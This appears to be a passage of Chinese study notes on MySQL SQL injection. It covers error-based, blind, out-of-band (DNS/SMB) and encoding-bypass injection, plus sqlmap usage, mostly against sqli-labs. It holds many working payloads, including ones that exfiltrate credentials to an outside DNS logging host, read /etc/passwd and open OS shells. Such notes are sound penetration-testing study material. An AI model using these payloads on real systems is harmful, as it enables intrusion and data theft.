

###### ③几何函数

* mysql版本属于[5.5.49,~]

* 高版本mysql无法得到数据，目前只有**mysql5.5.29、5.1.60**能得到**正确输出**

* geometrycollection()、**multipoint()**、polygon()、multipolygon()、linestring()、multilinestring()

* 标准payload

  ```
  1' and 
      (select multipoint(
          (select * from 
              (select * from 
                  (select * from
                      (select version())a
                  )b
               )c
      	)
      )
  ) -- qwe		
  ```


##### d. json报错

* 版本属于[5.7.8,~]

###### ①json_type

* 获取json值的类型，当我们**传入的值不属于json格式**则报错

* json_type(version())

* 标准payload

  ```
  1' and json_type(version())%23 --+
  ```


###### ②json_extract

* json_extract(json_doc,path[,path])

* 从json_doc中读取数据，和path的参数匹配，第一个或第二个参数不是json格式就报错

  ```
  1' and json_extract(user(),'$.a') -- qwe
  1' and json_extract(user(),'$.a') # 
  
  1' and json_extract('[1,2,3]',user()) -- qwe
  
  ```

###### ③json_array_append

* json_array_append(json_doc,path,val[,path,val]...)，

* 将值**附加**到json文档中**指定数组的末尾**并**返回结果，**

* 报错输出原理和json_extract函数相同

  ```
  1' and json_array_append('[1,2,3]',user(),1) # 
  1' and json_array_append('[1,2,3]',user(),1) -- qwe
  ```

#### (3). 基本步骤

##### a.查看数据库版本

```
1' and extractvalue(1,concat(0x7e,(select version()),0x7e)) --+
```


##### b.查看数据库名字

```
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```


##### c.查看数据库的表

```
1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```


##### d.查看有哪些表

```
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```


##### e.查看表中字段名

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
```


##### f.查看表里数据

```
1' and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('___',id,email_id)) from information_schema.columns where table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### 6. SQL盲注

#### (1). 概述

* 服务器不会直接返回具体的数据库，只会返回程序开发所**设定的特定信息**
* 页面**不会直接显示**sql执行的结果

#### (2). 布尔盲注

* 在进行SQL注入时，**WEB页面只返回True和False**
* 对返回True或False的情况对数据库的信息**进行猜解**

##### a. 相关函数

###### ①长度截取

* 用于截取**某一列字段中的一部分**，在各个数据库中名称不一样

* substr(arg1,int1,int2)，**int1为截取开始位置(从1开始计算)**，**int2为截取长度**，其余用法完全一样

  1. substr()
  2. substring()
  3. mid()
  4. left()
  5. right()

  ```
  select substr(database(),1,3)
  ```

###### ②length()

* 获取数据库长度

* 使用方法：length(arg1)，arg1代表字符串(数据库名)

  ```
  select length(database())
  ```

###### ③ascii()

* 将单一字符，转化为ascii码值

* 使用方法：ascii(str)，str代表字符

  ```
  select ascii('a')
  ```

###### ④if()

* 条件判断

* 使用方式：if(exp1,true,false)

  ```
  select if(length(database())>0,1,0)
  ```

###### ⑤count()

* 判断记录数

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and (length(database()))=n --+		//n为数据库名长度
```

###### ②获取数据库名称

```
1' and (ascii(substr(database(),n,1))=m) --+		//n为第几个位置，m为ascii码[65,122]
```

###### ③获取表名长度

```
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m) --+
  //m为表名长度
//获取表的个数
1' and (select count(*) from information_schema.tables where table_schema=database())=m -- qwe	//m为表的个数
```

###### ④获取表名

```
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m) --+		//m为字段名长度 

//获取字段个数
1' and ((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据

```
select 字段 from 表
```

#### (3). 时间盲注

##### a. 相关函数

###### ①sleep()

* 用法：sleep(arg1)，arg1是休眠秒数

  ```
  select if(1=1,sleep(10),0)
  ```

###### ②benchmark()

* 用法：benchmark(arg1,arg2)，arg1是执行次数，arg2是执行的表达式

* 延迟时间**只和机器性能有关**

  ```
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and if((length(database()))>5,sleep(10),0) --+
```

###### ②获取数据库名称

```
1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+		//65<=m<=122
```

###### ③获取表名长度

```
1' and if(exp1,sleep(10),0) --+
exp1= length((select count(table_name)from information_schema.tables where table_schema=database() limit 0,1))
综上：
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m,sleep(10),0) --+		//m为表名长度
```

```
//获取表的个数
1' and if(exp1,sleep(10),0) --+
exp1= select count(*) from information_schema.tables where table_schema=database())=m
综上:
1' and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(10),0) --+	//m为表的个数
```

###### ④获取表名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and if(length(),sleep(10),0) --+
exp1= length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m
综上：
1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+		//m为字段名长度 

//获取字段个数
1' and if((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m,sleep(10),0) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据


### 7. 数据外带

#### (1). 介绍

##### a.概念

* 如果SQL注入仅能使用**时间盲注**，可以使用**OOB(out of band)**,将sql语句执行的结果以数据的形式外带出来

##### b.条件

* **Windows操作系统**、mysql的全局变量**secure_file_priv不为null**

##### c.DNSLOG 平台

| 网址                       | 介绍                          |
| -------------------------- | ----------------------------- |
| http://dnslog.cn/          | 仅支持DNS数据外带             |
| http://eyes.sh/            | 支持DNS和HTTP两种数据外带方式 |
| http://ceye.io/            | 支持DNS和HTTP两种数据外带方式 |
| Burpsuite Collaborator模块 | 支持DNS和HTTP两种数据外带方式 |

##### d.应用场景

| 方式                                  | 简介                  |
| ------------------------------------- | --------------------- |
| secure_file_priv                      | 拥有读写权限          |
| secure_file_priv=""                   | 可以读取任何目录      |
| secure_file_priv='/var/www/html'      | 可以读取指定文件      |
| secure_file_priv=null                 | 不能加载文件          |
| show global variables like '%secure%' | 查看mysql是否有写限制 |

* 有写限制，则打开mysql的**配置文件my.ini**，在**mysqld一栏**添加**`secure_file_priv=""`**

#### (2). 方式

##### a.DNS数据外带

* 在极限条件(**内网机器不出网，支持dns出网，隐匿性高，不容易被拦截**)，**61长度限制，不支持敏感符号(@#$%)**，外带数据需要转码，规避流量监测设备

##### b.SMB数据外带

* **默认支持TCP/UDP出网方式时可用**，**无长度限制和符号限制**，规避流量监测设备

* Centos7上安装SMB服务

  ```
  1. 安装smb服务
  	yum install samba -y
  2. 修改配置文件
  	vim /etc/samba/smb.conf
  3. 修改samba日志路径
  	vim /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  	tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

* payload

  ```
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  1' and load_file(concat('\\\\192.168.172.130\\',(select group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```


##### c.HTTP数据外带

#### (3). 使用

* 以DNS数据外带为例

* ```
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc')	# /abc指定外部路径
  ```

* 实例

```
1.获取数据库名
select * from users where id=1 and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh/abc'));

2.获取表名
select * from users where id=1 and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh/abc'));

3.获取字段名
select * from users where id=1 and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));

4.获取字段数据
select * from users where id>0 and load_file(concat('//',(select group_concat(concat_ws('_',id,username,password) separator '__') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
```

#### (4). 基本步骤

##### a.获取数据库名

```
1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### b.获取表名

```
1' and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### c.获取字段名

```
1' and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc')) --+
```

##### d.获取字段数据

* DNS数据外带有字符大小限制

```
//获取id
1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM users),'.Laffrex.eyes.sh/abc')) --+
//获取username
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 1, 60) FROM 
users),'.Laffrex.eyes.sh/abc1')) --+		//本次字符最大长度为63
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+		

1' AND load_file(CONCAT('\\\\',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45) FROM users),'.Laffrex.eyes.sh/abc')) --+	//本次字符最大长度45
```

### 8.其他注入

#### (1). 宽字节注入

##### a. 概述

###### ①定义

* 宽字节是指**≥2个字节宽度**的编码技术

###### ② 原因

* set **character_set_client**="gbk"，通常导致**编码转换的注入问题**

* mysql在使用**GBK编码**时，**符合条件**会认为**2个字符是1个汉字**

* 第一个字节**129-254**，第二个字节为**64-254**


###### ③原理

* ①程序员会对**特殊字符**(例如单引号)进行**正则匹配通过反斜杠\使其失效**，这时无法使用普通注入；②在为gbk编码时，攻击者可以使用ascii＞128的字符与**反斜杠\组合成新的字符**，从而**绕过**反斜杠的**转义**

##### b.方法

###### ①.黑盒

* 在注入点后键入%df，再开始正常注入

* **键入字符的ASCII要大于128**，才能和反斜杠 **“\”** 组合成一个汉字

  ```
  1%df%' order by 3 -- qwe
  ```

###### ②.白盒

1. 方法

* 查看Mysql编码是否为**GBK**
* 是否使用了**preg_replace()**进行正则替换
* 是否使用了**addslashes()**进行转义
* 是否使用了**mysql_real_escape_string()**进行转义

2. 函数

   1. preg_replace()

      * 进行正则替换

      1. addslashes()
         * 仅在**特殊字符前添加反斜杠\ **来进行转义

      1. real_escape_string()
         * 新版本**mysqli函数**，字符替换精确，安全性更强

      1. mysql_real_escape_string()
         * 老版本**mysql_函数**，字符替换不精确，安全性弱

      1. mysql_query()
         * 执行数据库语句，**临时**设置字符集编码


   1. mysql_set_charset()
      * **直接**设置字符集编码


##### c. 宽字节注入修复

###### ①设置编码

```
Mysql_query("SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary",$conn);
```

###### ②过滤函数

```
mysql_real_escape_string()/addslashes()
```

#### (2). HTTP头注入

##### a.常见污染参数



##### b. 概述

###### ①. 概念

* 用户提交的**HTTP请求包的头信息未做过滤**，直接带入到数据库执行

###### ②. 检测方式

* 通过**修改http请求包的参数**来判断是否存在漏洞

###### ③. 原因

1. 在网页代码中的**ip字段**与**数据库**有交互
2. 代码中使用了**超全局变量$_SERVER[]**

###### ④. 修复

1. 过滤回车换行字符(%0d%0a、%0D%0A)
2. 不采用有漏洞版本的apache服务器
3. 对参数做**合法性校验**以及**长度限制**，**谨慎地**根据用户传入的参数设置**http返回包的header设置**

##### c. $_SERVER

* 是一个包含了诸多HTTP信息的数组

  | 参数                 | 含义                     |
  | -------------------- | ------------------------ |
  | HTTP_HOST            | 获取当前域名             |
  | HTTP_USER_AGENT      | 获取用户相关信息         |
  | HTTP_ACCEPT          | 当前请求的ACCEPT头部信息 |
  | HTTP_COOKIE          | 浏览器的cookie信息       |
  | SERVER_ADDR          | 服务器的ip地址           |
  | REMOTE_ADDR          | 浏览网页的用户ip         |
  | HTTP-X-FORWARDED-FOR | 浏览网页的用户ip         |
  | HTTP-CLIENT-IP       | 浏览网页的用户ip         |
  | SCRIPT_FILENAME      | 当前执行脚本的绝对路径   |

#### (3). 二次编码注入

* **指URL本身解码一次，代码中又使用函数解码一次**

##### a. 概述

###### ①. URL

* **URL采用16进制编码**(又被称为**百分号编码**，**使用%接2个16进制字符代表一个字节**)，其他非ASCII字符均需要编码显示
* URL可**允许**打印字符


```
-1%2527 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),database() -- qwe

-1%2527
```

###### ②. 常见编码

| 符号    | 对应url编码 |
| ------- | ----------- |
| 空格    | %20或%2B(+) |
| 双引号" | %22         |
| 井号#   | %23         |
| 百分号% | %25         |
| 和&     | %26         |
| 单引号' | %27         |
| 左括号( | %28         |
| 右括号) | %29         |
| 星号*   | %2A         |
| 加号+   | %2B         |
| 逗号，  | %2C         |
| 减号-   | %2D         |
| 斜杠/   | %2F         |
| 反斜杠\ | %5C         |

##### b.原理

###### ①. 相关函数

```
urldecode()
rawurldecode()
```

###### ②. 原理

* 使用过滤函数**addslashes()**时，特殊符号前的**反斜杠**转义字符会被**urldecode()等函数再一次解码**，去掉转义字符，导致转移失败

| 用户输入  | php解析 | addslashes()编码 | urldecode()解析 | 最终输入 | 结果       |
| --------- | ------- | ---------------- | --------------- | -------- | ---------- |
| id=1%27   | id=1'   | id=1`\'`         | （没有该函数）  | id=1`\'` | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | （没有该函数）  | id=1%27  | 无法注入！ |
| id=1%2527 | id=1%27 | id=1%27          | id=1'           | id=1'    | 注入成功！ |


#### (4). Base64注入

##### a. 概述

* Base64是基于64个可打印字符来表示二进制数据的方法，可打印字符包括**A-Z，a-z，0-9，+，/**
* Base64把**不可见字符全部编码为可见字符**，**大大降低传输时出现错误的可能性**

##### b. 原理

* 针对传递的参数被base64**加密后的注入点进行注入**，常用于**绕过一些WAF**检测

##### c. 注入方法

1. 先将原本参数**解密**，再结合**之前注入手法**进行设计
2. 语句设计完成后，**重新加密**作为参数进行注入

##### d. 实例

```
1.原参数
	YWRtaW4n
2.解密后进行语句设计
	admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe
3.base64编码后进行注入
	YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd2U=
```

#### (5). 堆叠注入

##### a. 概述

* 在**分号**结束一个sql语句后，**继续构造**下一条语句，**一起执行**
* **堆叠查询**可以执行**任意语句**，**联合查询**的语句**类型有限**，通常是**查询语句**

##### b. 原理

* 将**许多语句**通过**分号**叠加在**一起执行**
* **mysqli_multi_query支持**，**mysql_query不支持**
* 可能受到**API**或**数据库引擎不支持**的限制

##### c. 条件

* web系统通常**只返回一个查询结果**，故在读取数据时使用**联合注入**
* 使用堆叠注入前，须知道数据库的**表名、列名等**

##### d. 实例

```
//插入数据
1';insert into users(username,password) value('icq','icq') -- qwe
//获取字段名
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),database() -- qwe
//获取字段内数据
-1' union select 1,(select group_concat(concat_ws('_',username,password)) from users),database() -- qwe
```

#### (6). 二次注入

##### a. 概述

* 已**存储的用户输入**被**读取**后，**再次进入到sql查询语句**中导致的注入

##### b. 原理

1. 网站在对用户输入**恶意数据**时进行**转义处理**
2. 恶意数据**插入到数据库**时又被**还原并存储**到数据库中
3. 系统**再次调用**该恶意数据并**执行sql查询**时，被成功注入(因为调用时不会考虑转义问题)

##### c. 实例 

```
//一个页面，能显示登录后的用户名，这时可以注册不同的payload名的账号，来进行注入
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#

1' order by 5#

1' union select 1,2,3,4,5#

1' union select 1,database(),3,4,5#

1' union select 1,(select table_name from information_schema.tables where table_schema=database()),2,3,4,5#

1' union select 1,user(),3,4,5#
```

### 9. Sqlmap

#### (1).介绍

##### a. 工作流程

1. 检测网站是否能够访问
2. 检测是否有waf
3. 判断可注入的参数
4. 判断可以使用哪种Sql注入技术
5. 识别出数据库种类
6. 根据用户输入的参数，进行操作

##### b. 支持的注入模式

1. 联合查询注入
2. 基于报错注入
3. 布尔、时间盲注
4. 堆叠查询注入
5. 内联查询注入

#### (2). 使用

##### a. 基本流程

###### ①检测注入点

* sqlmap -u "带参数网址"

###### ②查看所有数据库

* sqlmap -u "带参数网址" --dbs

###### ③查看当前数据库

* sqlmap -u "带参数网址" --current-db

###### ④查看表名

* sqlmap -u "带参数网址" -D [数据库名] --tables

###### ⑤列出所有字段名

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] --columns

###### ⑥列出字段内容

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] -C [列名...] --dump

##### b. 历史记录

###### ①Windows

* C:\Users\26254\AppData\Local\sqlmap

###### ②Linux

* /home/test/.sqlmap
* /root/.sqlmap

###### ③清除

1. python sqlmap.py --purge
2. 删除sqlmap的output文件夹
3. python sqlmap.py --flush-session

#### (3). 常用参数

##### a. --privileges

* 测试注入点权限

###### ①用法

```
sqlmap -u [URL] --privileges  //测试所有用户的权限
sqlmap -u [URL] --privileges -U [用户名] //测试指定用户权限
```

###### ②注意

1. 若目标是MSSql数据库，只会列出用户是否是管理员
2. 通过用户权限可以判断出**管理员用户**

##### b. -os-cmd/-os-shell

* 执行shell命令

###### ①用法

```
sqlmap -u [URL] --os-cmd="net user"	//执行net user命令
sqlmap -u [URL] --os-shell		//系统交互式的shell
```

###### ②注意

1. 用--os-shell可以**模拟真实shel**l，可以使用**INTO OUTFILE**写进**可写目录**，创造一个**Web后门**
2. 需要有权限使用特定函数
3. 数据库为mysql、postgresql、sqlserver

##### c. --data/-r

* POST提交方式

###### ①用法

```
python sqlmap.py -u [url] --data "uname=admin&passwd=admin"

sqlmap  -r "txt文件"	//读取文件中的HTTP数据包内容来测试POST注入和HTTP Header注入

sqlmap -u [url] -p uname,passwd
```

###### ②注意

1. **-p可指定url栏里面的参数**
2. **参数后加 *** 指定优先级

##### d. -users/-passwords

* 获取数据库用户名、密码

###### ①用法

```
sqlmap -u [URL] --users -passwords	//列举所有用户的密码
```

##### e. -v

* 输出级别

###### ①用法

```
sqlmap -u [URL] -v 3 	//指定输出级别为3
```

| 数据级别 | 含义                               |
| -------- | ---------------------------------- |
| 0        | 只显示python的回溯、错误和关键信息 |
| 1        | 显示信息和警告信息                 |
| 2        | 显示调试信息                       |
| **3**    | **显示注入使用的攻击载荷**         |
| 4        | 显示HTTP请求                       |
| 5        | 显示HTTP响应头                     |
| 6        | 显示HTTP相应页面的内容             |

###### ②注意

1. **默认输出级别为1**

##### f. --level

* 探测等级

###### ①用法

```
sqlmap -u [URL] --level 3	//指定测试等级为3
```

| 测试等级 | 含义                                  |
| -------- | ------------------------------------- |
| 1        | 对GET和POST的数据进行测试             |
| 2        | 会对HTTP cookie进行测试               |
| 3        | 会对HTTP User-Agent/Referer头进行测试 |
| 4-5      | 测试更全面，但更慢                    |

###### ②注意

1. **默认测试等级为1**
2. 不确定那个Payload或参数为注入点时，建议使用更高的level值

##### g. --is-dba

* 判断当前用户的管理员权限

###### ①用法

```
sqlmap -u [URL] --is-dba	//查看是否为数据库管理员账户
```

###### ②注意

1. 返回的结果代表是否有**写权限**，可以在服务器上写入**一句话木马**
2. 是**管理员返回True**，否则返回False

##### h. --roles

* 列出数据库用户所具有的权限 

###### ①用法

```
sqlmap -u [URL] --roles		//列出数据库用户所具有的权限
```

##### i. -b/--banner

* 列出数据库管理系统信息

###### ①用法

```
sqlmap -u [URL] --banner	//返回①数据库系统版本号②最后的补丁级别③底层的操作系统信息
```

##### j. --users/--passwords

* 获取数据库的用户名和密码

###### ①用法

```
sqlmap -u [URL] --users --passwords
```

##### k. --current-user/--current-db

* 显示当前数据库和当前数据库用户

###### ①用法

```
sqlmap -u [URL] --current-user --current-db
```

###### ②注意

##### l. -m

* 批量进行注入检测

###### ①用法

```
sqlmap -m "filename"	//扫描指定文件内的网址
```

##### m. --cookie

* 指定cookie

###### ①用法

```
sqlmap -u [URL] --cookie="name:value"
```

###### ②注意

1. sqlmap**不支持--method**指定http请求的方法
2. **默认不扫**cookie的内容，**除非level ≥ 2**
3. cookie内的默认分隔符为**分号;**

##### n. --user-agent/--random-agent

* 指定User-Agent

###### ①用法

```
sqlmap -u [URL] --user-agent="..."	//指定某一个值
sqlmap -u [URL] --random-agent	//sqlmap会从文件./txt/user_agents.txt中随机选取一个User-Agent
```

###### ②注意

1. 同一次会话使用同一个User-Agent，而不是每发一次包就换一个

##### o. --referer

* 指定Referer

###### ①用法

```
sqlmap -u [URL] --referer="aaa"	//指定referer内容为aaa
```

###### ②注意

1. 当level ≥ 3时，才会对referer注入
2. Sqlmap发送的HTTP请求头部，**默认无Referer字段**

##### p. --time-sec

* 延时注入，指定延时时间

###### ①用法

```
sqlmap -u [URL] --time-sec [秒数]
```

###### ②注意

1. 单位为秒

##### q. --technique/-

* 指定注入类型

###### ①用法

```
sqlmap -u [URL] --technique [类型]  
```

| 参数                   | 类型         |
| ---------------------- | ------------ |
| U(Union query-based)   | 联合查询注入 |
| E(Error-based)         | 基于报错注入 |
| B(Boolean-based blind) | 布尔盲注     |
| T(Time-based blind)    | 时间盲注     |
| S(Stacked queries)     | 堆叠查询注入 |
| Q(Inline queries)      | 内联查询注入 |

##### r. --batch

* 默认选项均选择Y

##### s. --delay

* 限制请求间隔

###### ①用法

```
sqlmap -u [URL] --delay [秒数]	//提高发包间隔		
```

###### ②注意

1. 当有警告 `target URL content is not stable` 时使用


#### (4). sqlmap进阶

##### a. 目录结构



##### b. 如何测试注入

1. 一个test标签代表一个测试
2. <.vector>内为攻击向量
3. <.request>和<.response>中为具体语句
4. 通过第三步的**返回值比较**来判断注入点

##### c. 扩展参数 

###### ①. 其他

1.  --proxy

* 使用**代理连接**到目标URL

```
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --proxy=http://127.0.0.1:8080 
```

2. --tor

* 使用Tor匿名网络

3.  --check-tor

* 检查Tor是否正确使用

4. --dbms

* 强制指定后端DBMS的值

```
python sqlmap.py -u "url" --dbms=MYSQL //指定后端数据库时mysql
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --dbms=mysql --batch
```

5. --risk

* ###### 指定要执行的测试风险级别(级别1-3，默认为1,)

```
python sqlmap.py -u "url" --risk [风险级别]

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --risk 2
```

6. 其他选项

| 参数           | 含义                                                         |
| -------------- | ------------------------------------------------------------ |
| -a,--all       | 检索所有内容                                                 |
| --current-user | 获取当前用户信息                                             |
| --tables       | 获取特定数据库的所有表信息                                   |
| --columns      | 获取特定表的所有列信息                                       |
| --schema       | 获取数据库的整体架构信息                                     |
| --dump         | 导出特定数据库或表的数据,不跟任何表或字段则为导出所有数据库信息 |
| --dump-all     | 导出整个数据库服务器上的所有数据                             |
| -D、-T、-C     | 分别指定数据库、表、字段                                     |

###### ② 杂项

| 参数               | 含义                                 |
| ------------------ | ------------------------------------ |
| --alert=ALERT      | 在发现SQL注入时运行主机操作系统命令  |
| --beep             | 在提问、发现漏洞时发出蜂鸣声         |
| --dependencies     | 检查缺失的(可选的)sqlmap依赖项       |
| --disable-coloring | 禁用控制台输出着色                   |
| --list-tampers     | 显示克用的篡改脚本列表               |
| --no-logging       | 禁用日志记录到文件                   |
| --offine           | 在离线模式下工作                     |
| --purge            | 安全地从sqlmap数据目录中删除所有内容 |


##### d. 执行sql语句

* `select @@datadir`输出mysql的data数据存放路径；`select @@secure_file_priv`输出该参数内容

###### ①--sql-query

* 直接**执行指定的sql语句**

```
sqlmap -u [url] --sql-query="sql语句"

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-query="select version()"
```

###### ②--sql-shell

* 直接获得*交互式的SQL**命令shell*** (用于执行update、delete、drop、alert等语句)
* **执行的语句与注入点的类型有关**
* 输入***X或者Q***退出交互命令行

```
sqlmap -u [URL] --sql-shell

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-shell
```

###### ③--sql-file

* 直接执行sql文件中的语句

```
sqlmap -u [URL] --sql-file=sql文件

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-file="D:\NetTools\sqlmap\sql_file.sql"

sql_file.sql内容：
select version();
select @@datadir;	//输出mysql存放数据的路径
```

#### (4). 文件操作

* 危害
  * 存在SQL注入漏洞
  * **DBA权限**
  * 可以进行文件**读写操作**
  * 知道**绝对路径**
* 防御
  * 输入时对敏感语句过滤
  * my.ini中配置secure_file_priv=null

##### a. 读文件

###### ①满足条件

1. **secure_file_priv**要么禁用，要么设置了路径
2. mysql有对某个**目录读写**的权限
3. 知道**绝对路径**
4. 文件**必须在服务器上存在**
5. max_allowed_packed     //读写文件最大的字节数

###### ①load_file()

```
//windows系统下：
load_file("c:/windows/win.ini")		//可以使用16进制编码来操作内容
load_file("c://windows//win.ini")
load_file("c:\\windows\\win.ini")
//Linux系统下：
load_file("/etc/passwd")
```

###### ②--file-read()

* 原理：利用**load_file()**函数

```
sqlmap -u [url] --file-read "文件绝对路径"		//读取文件可以是文本、二进制文件

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --file-read "D:\phpstudy_pro\WWW\test.txt"
```

##### b. 写文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**要么禁用，要么设置了路径
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②使用--sql-query、--sql-shell

* 原理：利用mysql的 **outfile、dumpfile**函数

```
